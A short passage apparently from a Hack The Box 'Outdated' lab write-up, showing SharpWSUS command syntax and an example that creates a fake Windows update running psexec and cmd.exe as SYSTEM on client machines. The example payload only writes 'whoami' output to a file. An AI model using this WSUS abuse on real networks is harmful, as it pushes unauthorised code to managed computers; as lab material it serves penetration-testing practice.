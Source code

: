 ![image.png](/assets/Images/HTB_Outdated/image%2025.png)

Create an update (NOTE: The payload has to be a windows signed binary):

```bash
SharpWSUS.exe create /payload:[File location] /args:[Args for payload] </title:[Update title] /date:[YYYY-MM-DD] /kb:[KB on update] /rating:[Rating of update] /msrc:[MSRC] /description:[description] /url:[url]>
```

Example

```bash
SharpWSUS.exe create /payload:"C:\Users\Test\Documents\psexec.exe" /args:"-accepteula -s -d cmd.exe /c ""whoami > C:\test.txt""" /title:"Great Update" /date:2021-10-03 /kb:500123 /rating:Important /description:"Really important update" /url:"https://google.com"
```
